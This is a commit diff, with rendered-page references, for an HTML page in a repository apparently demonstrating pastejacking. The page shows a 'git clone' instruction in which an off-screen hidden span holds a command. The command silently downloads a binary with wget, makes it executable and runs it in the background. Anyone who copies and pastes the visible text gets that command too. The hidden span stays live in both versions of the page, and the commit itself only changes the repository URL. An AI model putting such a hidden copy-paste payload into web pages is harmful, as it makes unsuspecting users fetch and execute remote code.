

Before and after one commit to 5l1v3r1/PwasteJackingwned, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -28,6 +28,6 @@
 </center>
 <br>
 <br>
-<center><p> "git clone" <span style="position: absolute; left: -2000; top: -100px;" >/dev/null; clear; wget http://www.example.com/payload.elf &> /dev/null && chmod +x ./trouxa.elf && ./trouxa.elf & disown && clear</span> "www.github.com/ninj4c0d3r/Scripts.git" </p></center>
+<center><p> "git clone" <span style="position: absolute; left: -2000; top: -100px;" >/dev/null; clear; wget http://www.example.com/payload.elf &> /dev/null && chmod +x ./trouxa.elf && ./trouxa.elf & disown && clear</span> "www.github.com/ninj4c0d3r/PwasteJackingwned.git" </p></center>
 </body>
 </html>
```
